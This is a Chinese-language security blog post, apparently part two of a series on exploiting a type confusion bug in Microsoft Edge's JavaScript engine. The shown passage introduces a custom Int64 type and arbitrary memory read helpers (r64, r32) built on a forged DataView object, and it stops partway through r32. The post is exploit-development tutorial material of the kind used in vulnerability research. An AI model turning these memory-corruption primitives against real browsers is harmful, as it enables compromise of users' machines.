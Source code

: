 > 原文链接: https://www.anquanke.com//post/id/98775 


# Edge Type Confusion利用：从内存读写到控制流程


                                阅读量   
                                **156605**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p1.ssl.qhimg.com/t0129ad18acd5e9878d.png)](https://p1.ssl.qhimg.com/t0129ad18acd5e9878d.png)

> 本篇原创文章参加双倍稿费活动，预估稿费为800元，活动链接请点[此处](https://www.anquanke.com/post/id/98410)

### 传送门：[Edge Type Confusion利用：从type confused到内存读写](https://www.anquanke.com/post/id/98774)

> 在上一部分中我们通过在NativeIntArray的Segment数据区中伪造DataView对象获得了内存读写的能力，在这部分目标是进一步由内存读写到控制程序执行流。

## 准备工作

在Edge中地址等数据都是64位的，但是在目前的Javascript中不支持Int64类型，这样就没有办法直接通过DataView读出64位或者对64位整数进行运算，这里需要我们自己做一些工作来方便数据操作

```
Because JavaScript doesn't currently include standard support for 64-bit integer values, js-ctypes offers the Int64 and UInt64 objects to let you work with C functions and data that need (or may need) values represented using a 64-bit data type.

You use the Int64 object to create and manipulate 64-bit signed integers.
```

通过自己定义一个Int64类型，使用low、high两部分int32储存int64

```
function Int64(low,high) 
`{`
    this.low = low;
    this.high = high;
`}`
```

为了方便读写，编写了r64、w64这些函数，可以直接拿来操作数据。

```
function r64(addr)
`{`
    fake_object[14]=addr.low; 
    fake_object[15]=addr.high;

    return new Int64(obj.getUint32.call(arr[0],0,true),
                     obj.getUint32.call(arr[0],4,true));
`}`

function r32(addr)
`{`
    fake_object[14]=addr.low; 
    fake_object[15]=addr.high;    
```
